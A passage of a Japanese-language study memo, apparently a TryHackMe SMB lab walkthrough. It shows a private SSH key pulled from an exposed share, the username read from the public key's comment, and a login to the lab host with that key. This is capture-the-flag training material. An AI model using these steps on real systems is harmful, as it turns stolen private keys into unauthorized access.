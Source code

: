 備忘録として、同時にファイルをダウンロードしようとして、`get id_rsa.pub id_rsa`や`get id_rsa.pub,id_rsa`などやってみたが、うまくいかなかった。  
やり方がまずいのか、ひとつひとつしかダウンロードできないのかはわからないが、`一個ずつ`の方が無難そう  
  
ダウンロードできたので、一旦ローカルに戻る。  
あとはユーザ情報の探索だが、`ssh-keygen`をして公開鍵を生成すると、鍵の中身に`ユーザ情報`が入るので、それを確認。  
このことは忘れないようにする。  
```bash
┌──(kali㉿kali)-[~/Desktop/THM_SMB]
└─$ cat id_rsa.pub                          
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDb7OaL8zLZ5Z8OU3wZPSIQHaoyI8Yc3I/8/Y6faWgYTZbfNPexli0jxdAeTeGy2X3XACWcB4HFejbiNsMYLjy517gwWKPBvN865i8uIQ0Gqayq/KmBHpuBbR0yX/SpyfyvzR3VD16pg/D+WT8hLaNHSYm6FNYLsmVnWDSJDBhS179czftuoW55mw/OqzWVr5ln9cKeeuXlNV1lqCjBqF3ClzEBvN4JW8GS/riLTeHcXeMIMUTuIpr4XovN/VivIlLqTYy7lHuUh6L2RqAfw5+FSr4QZW1zHCMoS6FooTomq/03EGJCGcp80/fT0e04n+7+PxnmvZQkOwe1A1hUG6C/ cactus@polosmb
```
最後の`cactus@polosmb`は、`ユーザ名@ホスト名`の記載であるため、ユーザ名は`cactus`となる。  
ここまでわかったので、実際に`ssh`でログインしてみる  
```bash
┌──(kali㉿kali)-[~/Desktop/THM_SMB]
└─$ chmod 600 id_rsa  
```
まずは、`id_rsa`を使えるようにするために権限を付与。  
権限は`600`でないといけないので注意。下手に'777'とかにしてもつながらなくて沼るので、よく覚えておく。  
ここまで来たら後はログインするだけ。  
```bash
┌──(kali㉿kali)-[~/Desktop/THM_SMB]
└─$ ssh -i id_rsa cactus@10.10.3.153 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jun  9 06:39:57 UTC 2024

  System load:  0.0                Processes:           92
  Usage of /:   33.3% of 11.75GB   Users logged in:     0
  Memory usage: 20%                IP address for eth0: 10.10.3.153
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

22 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Jun  9 04:47:03 2024 from 10.9.0.5
cactus@polosmb:~$ 
```
`ssh`の`-i`オプションは、`鍵を明示的に指定`するためのオプション。  
確か指定しないと、`.ssh`の鍵を見に行ってしまうので、しっかり指定するようにする。  
  
